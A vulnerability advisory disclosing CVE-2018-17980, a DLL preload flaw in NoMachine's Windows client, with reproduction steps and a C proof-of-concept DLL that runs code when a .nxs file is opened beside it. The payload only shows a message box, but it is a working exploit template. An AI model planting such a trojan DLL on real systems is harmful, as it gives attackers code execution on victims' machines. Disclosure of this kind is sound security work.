 INFO
----

[+] Credits: John Page (aka hyp3rlinx) [+] Website: hyp3rlinx.altervista.org [+] Source: <http://hyp3rlinx.altervista.org/advisories/NOMACHINE-TROJAN-FILE-REMOTE-CODE-EXECUTION.txt> [+] ISR: ApparitionSec

Greetz: \*\*\*Greetz: indoushka | Eduardo \*\*\*

[Vendor] www.nomachine.com

[Product] NoMachine \<= v5.3.26

NX technology, developed by NoMachine, and commonly known as "NX" is a proprietary computer program that provides desktop and remote access. It consists of a suite of products for desktop virtualization and application delivery for servers, and client software.

[Vulnerability Type] Trojan File Remote Code Execution

[Affected Component] wintab32.dll

[CVE Reference] CVE-2018-17980

[Security Issue] Possible arbitrary code execution when opening a ".nxs" nomachine file type on client's wintab32.dll preload. This issue regards the client part of all NoMachine installations on Windows (NoMachine free, NoMachine Enterprise Client, NoMachine Enteprise Desktop and NoMachine Cloud Server).

1) create a 32 bit DLL named "wintab32.dll" 2) create an native nomachine ".NXS" file and open it alongside the trojan "wintab32.dll" DLL from Network share or any dir. BOOM!

[References] <https://www.nomachine.com/TR10P08887>

[Exploit/POC]

1.  include <windows.h>

/\* hyp3rlinx \*/

/\* gcc -c -m32 wintab32.c gcc -shared -m32 -o wintab32.dll wintab32.o

-   /

void executo(){

`MessageBox( 0, "3c184981367094fce3ab70efc3b44583" , ":)" , MB_YESNO + MB_ICONQUESTION );`

}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved){

`switch(fdwReason){`
` case DLL_PROCESS_ATTACH:{`
`   executo();`
`   break;`
`   }`
` case DLL_PROCESS_DETACH:{`
`   executo();`
`   break;`
`   }`
` case DLL_THREAD_ATTACH:{`
`   executo();`
`   break;`
`      }`
` case DLL_THREAD_DETACH:{`
`   executo();`
`   break;`
`   }`
`  }`
`   return TRUE;`

}

[Network Access] Remote

[Severity] High

[Disclosure Timeline] Vendor Notification: September 26, 2018 Vendor verified vulnerability: September 28, 2018 CVE assigned by Mitre: October 4, 2018 Vendor release fixed version: October 11, 2018 October 11, 2018 : Public Disclosure

[+] Disclaimer The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise. Permission is hereby granted for the redistribution of this advisory, provided that it is not altered except by reformatting it, and that due credit is given. Permission is explicitly given for insertion in vulnerability databases and similar, provided that due credit is given to the author. The author is not responsible for any misuse of the information contained herein and accepts no responsibility for any damage caused by the use or misuse of this information. The author prohibits any malicious use of security related information or exploits by the author or elsewhere. All content (c).

hyp3rlinx